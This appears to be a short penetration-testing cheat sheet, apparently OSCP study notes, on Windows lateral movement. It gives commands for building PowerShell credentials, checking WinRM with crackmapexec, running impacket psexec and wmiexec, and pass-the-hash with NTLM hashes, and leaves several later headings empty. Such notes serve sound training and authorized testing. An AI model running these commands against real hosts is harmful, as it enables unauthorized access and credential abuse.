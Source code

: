 How to create a PSCredential:
```
$username = 'ken';
$password = 'password123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

## Wmic and WinRM
WMI, we need credentials of a member of the Administrators local group

For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

Checking for WinRM:
```
crackmapexec winrm $ip -u user -p password
```

## PsExec
The user that authenticates to the target machine needs to be part of the Administrators local group
The ADMIN$ share must be available and File and Printer Sharing has to be turned on

```
impacket-psexec test.local/john:password123@10.10.10.1
```

## Pass the Hash

### Impacket:

#### WMI:
```
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@$rhost
```

#### PsExec:
```
impacket-psexec oscp.exam/administrator@192.168.130.102 -hashes :ba85f4e1f47633ebd44894de679fabb4

```

## Overpass the Hash

## Pass the Ticket

# Persistence

## Golden Ticket

